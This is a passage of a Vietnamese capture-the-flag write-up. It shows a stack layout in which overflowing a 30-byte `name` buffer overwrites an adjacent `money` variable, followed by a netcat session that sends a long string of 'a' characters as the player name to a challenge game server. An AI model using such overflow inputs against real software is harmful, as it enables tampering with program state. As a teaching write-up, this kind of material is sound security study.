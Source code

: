 ```
|  +-------------------+                                   
S  |       money       |
t  +-------------------+
a  |      name[30]     |  
c  +-------------------+
k  |        ...        |
|  +-------------------+
```
Vì vậy ta tiến hành nhập vào biến `name` để có thể khiến biến `money` bị thay đổi giá trị từ đó ta có thể có 1 số tiền lớn và mua flag.
```
halston in ~ λ nc 174.138.21.217 3137



                                         I
                                      II   II
                                   II         II
                                ,I               II
                              I,       IIIIII       II
                           II       IIIIIIIIIIII       II
                        II       IIIIIIIIIIIIIIIIII#      II
                     II        IIIIIIIIIIIIIIIIIIIIIII       II
                  II        IIIIIIIIIII       IIIIIIII  II      II
           IIIIII            IIIIIII            IIIIII  IIIII      II
           IIIII        II    IIIIIII           IIIIII  IIIIIIII      II.
            #I      I   IIII    IIIIIII         IIIIII  IIIIIIIIIII     I
                 IIIII  IIIII    IIIIIIIII     .IIIIII  IIII   IIIII    I
        IIIII  IIIIIII   IIIIII    IIIIIIIII     IIIII  IIII    IIII    I
        IIIII  #IIIIII   IIIIII       IIIIIIIII      I  IIII   IIII    I
           I    IIIIIII   IIIIII  I     IIIIIIIIIII     IIIII# IIII    I
           I     IIIIII   IIIIIII  II      IIIIIIIIII  IIIIIIIIIII    II
            I    IIIIIII   IIIIIII  III#     IIIIIII   IIIIIIIIIII    I
            I     IIIIIII   IIIIIII  IIIII  IIIIIIII  IIIIIIIIIII    I
             I     IIIIIII   IIIIIII  IIII IIIIIIII   IIIIIIIIII    II
              I     IIIIIII   IIIIIII  II IIIIIIII#  IIIIIIIIII     I
               I     IIIIIII   IIIIIIII  IIIIIIIII  *IIIIII II     I
                I     IIIIIII   IIIIIIIIIIIIIIIII   IIIIII II     I
                 I     IIIIIII   IIIIIIIIIIIIIII   IIIII* II    #I
                  I      IIIIII    IIIIIIIIIIII   IIIII  I     II
                   I.     IIIIIII    IIIIIIIII   IIIII II     I
                     I      IIIIIII   IIIIII   IIIIII I      I
                      II      IIIIII    III   IIIII        I
                        II      IIIIII      IIIIII       II
                          II      IIIIII   IIIII       II
                            II      IIIIIIIIII       II
                               II                  I
                                 III            II
                                    #II     III
                                        III


Hãy nhập tên người chơi: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
==========================Game Bài Đoán Số Uy Tín Đổi Thưởng==========================
| 1. Chơi Game   |  2. Hướng Dẫn   |   3. Đổi Flag   |  4. Tài Khoản | 5. Thoát Game |
======================================================================================

Hello �aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, chào mừng bạn đến với Game Bài Uy Tín Top 1 Việt Nam !!!
Nhập lựa chọn của bạn:
4

```
